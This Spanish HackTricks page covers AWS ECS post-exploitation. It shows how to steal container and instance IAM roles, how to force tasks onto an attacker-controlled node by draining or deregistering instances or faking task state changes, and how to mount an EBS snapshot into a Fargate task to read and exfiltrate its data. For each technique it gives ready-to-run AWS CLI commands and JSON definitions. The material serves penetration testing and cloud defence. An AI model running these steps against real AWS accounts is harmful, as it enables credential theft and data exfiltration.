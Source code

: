 # AWS - ECS Post Exploitation

{{#include ../../../../banners/hacktricks-training.md}}

## ECS

Para más información consulta:

{{#ref}}
../../aws-services/aws-ecs-enum.md
{{#endref}}

### Host IAM Roles

En ECS se puede asignar una **IAM role a la task** que se ejecuta dentro del container. **Si** la task se ejecuta dentro de una **EC2** instance, la **EC2 instance** tendrá **otra IAM** role attached to it.\
Lo que significa que si logras **comprometer** una instancia ECS puedes potencialmente **obtener la IAM role asociada al ECR y a la instancia EC2**. Para más información sobre cómo obtener esas credenciales, consulta:

{{#ref}}
https://book.hacktricks.wiki/en/pentesting-web/ssrf-server-side-request-forgery/cloud-ssrf.html
{{#endref}}

> [!CAUTION]
> Ten en cuenta que si la instancia EC2 está forzando IMDSv2, [**according to the docs**](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/instance-metadata-v2-how-it-works.html), la **response of the PUT request** tendrá un **hop limit of 1**, haciendo imposible acceder al EC2 metadata desde un container dentro de la instancia EC2.

### Privesc to node to steal other containers creds & secrets

Además, EC2 usa docker para ejecutar ECs tasks, por lo que si puedes escapar al nodo o **acceder al docker socket**, puedes **comprobar** qué **otros containers** se están ejecutando, e incluso **entrar en ellos** y **robar las IAM roles** que tengan adjuntas.

#### Hacer que los containers se ejecuten en el host actual

Además, la **EC2 instance role** normalmente tendrá suficientes **permissions** para **update the container instance state** de las instancias EC2 que se usan como nodos dentro del cluster. Un atacante podría modificar el **state of an instance to DRAINING**, entonces ECS **remove all the tasks from it** y las que se estén ejecutando como **REPLICA** serán **run in a different instance,** potencialmente dentro de la **attackers instance**, de modo que pueda **steal their IAM roles** y obtener información sensible desde dentro del container.
```bash
aws ecs update-container-instances-state \
--cluster <cluster> --status DRAINING --container-instances <container-instance-id>
```
La misma técnica se puede hacer **anulando el registro de la instancia EC2 del clúster**. Esto es potencialmente menos sigiloso, pero **forzará que las tareas se ejecuten en otras instancias:**
```bash
aws ecs deregister-container-instance \
--cluster <cluster> --container-instance <container-instance-id> --force
```
Una técnica final para forzar la reejecución de tareas es indicar a ECS que la **tarea o el contenedor se detuvo**. Hay 3 APIs potenciales para hacer esto:
```bash
# Needs: ecs:SubmitTaskStateChange
aws ecs submit-task-state-change --cluster <value> \
--status STOPPED --reason "anything" --containers [...]

# Needs: ecs:SubmitContainerStateChange
aws ecs submit-container-state-change ...

# Needs: ecs:SubmitAttachmentStateChanges
aws ecs submit-attachment-state-changes ...
```
### Robar información sensible de contenedores ECR

The EC2 instance will probably also have the permission `ecr:GetAuthorizationToken` allowing it to **descargar imágenes** (podrías buscar información sensible en ellas).

{{#include ../../../../banners/hacktricks-training.md}}



### Montar un snapshot de EBS directamente en una tarea ECS (configuredAtLaunch + volumeConfigurations)

Abusa de la integración nativa ECS–EBS (2024+) para montar el contenido de un snapshot de EBS existente directamente dentro de una nueva tarea/servicio ECS y leer sus datos desde dentro del contenedor.

- Necesita (mínimo):
- ecs:RegisterTaskDefinition
- Uno de: ecs:RunTask OR ecs:CreateService/ecs:UpdateService
- iam:PassRole on:
- Rol de infraestructura de ECS usado para volúmenes (política: `service-role/AmazonECSInfrastructureRolePolicyForVolumes`)
- Task execution/Task roles referenced by the task definition
- Si el snapshot está cifrado con una CMK: permisos KMS para el rol de infra (la política administrada de AWS arriba incluye los grants KMS requeridos para las claves gestionadas por AWS).

- Impacto: Leer contenidos arbitrarios del disco desde el snapshot (p. ej., archivos de base de datos) dentro del contenedor y exfiltrarlos vía red/logs.

Pasos (ejemplo Fargate):

1) Crear el rol de infraestructura ECS (si no existe) y adjuntar la política administrada:
```bash
aws iam create-role --role-name ecsInfrastructureRole \
--assume-role-policy-document '{"Version":"2012-10-17","Statement":[{"Effect":"Allow","Principal":{"Service":"ecs.amazonaws.com"},"Action":"sts:AssumeRole"}]}'
aws iam attach-role-policy --role-name ecsInfrastructureRole \
--policy-arn arn:aws:iam::aws:policy/service-role/AmazonECSInfrastructureRolePolicyForVolumes
```
2) Registrar una task definition con un volume marcado `configuredAtLaunch` y montarlo en el container. Ejemplo (imprime el secret y luego duerme):
```json
{
"family": "ht-ebs-read",
"networkMode": "awsvpc",
"requiresCompatibilities": ["FARGATE"],
"cpu": "256",
"memory": "512",
"executionRoleArn": "arn:aws:iam::<ACCOUNT_ID>:role/ecsTaskExecutionRole",
"containerDefinitions": [
{"name":"reader","image":"public.ecr.aws/amazonlinux/amazonlinux:latest",
"entryPoint":["/bin/sh","-c"],
"command":["cat /loot/secret.txt || true; sleep 3600"],
"logConfiguration":{"logDriver":"awslogs","options":{"awslogs-region":"us-east-1","awslogs-group":"/ht/ecs/ebs","awslogs-stream-prefix":"reader"}},
"mountPoints":[{"sourceVolume":"loot","containerPath":"/loot","readOnly":true}]
}
],
"volumes": [ {"name":"loot", "configuredAtLaunch": true} ]
}
```
3) Crear o actualizar un servicio pasando el snapshot de EBS mediante `volumeConfigurations.managedEBSVolume` (requiere iam:PassRole en el rol de infraestructura). Ejemplo:
```json
{
"cluster": "ht-ecs-ebs",
"serviceName": "ht-ebs-svc",
"taskDefinition": "ht-ebs-read",
"desiredCount": 1,
"launchType": "FARGATE",
"networkConfiguration": {"awsvpcConfiguration":{"assignPublicIp":"ENABLED","subnets":["subnet-xxxxxxxx"],"securityGroups":["sg-xxxxxxxx"]}},
"volumeConfigurations": [
{"name":"loot","managedEBSVolume": {"roleArn":"arn:aws:iam::<ACCOUNT_ID>:role/ecsInfrastructureRole", "snapshotId":"snap-xxxxxxxx", "filesystemType":"ext4"}}
]
}
```
4) Cuando la tarea se inicia, el contenedor puede leer el contenido del snapshot en la ruta de montaje configurada (p. ej., `/loot`). Exfiltrate a través de la red/los registros de la tarea.

Cleanup:
```bash
aws ecs update-service --cluster ht-ecs-ebs --service ht-ebs-svc --desired-count 0
aws ecs delete-service --cluster ht-ecs-ebs --service ht-ebs-svc --force
aws ecs deregister-task-definition ht-ebs-read
```

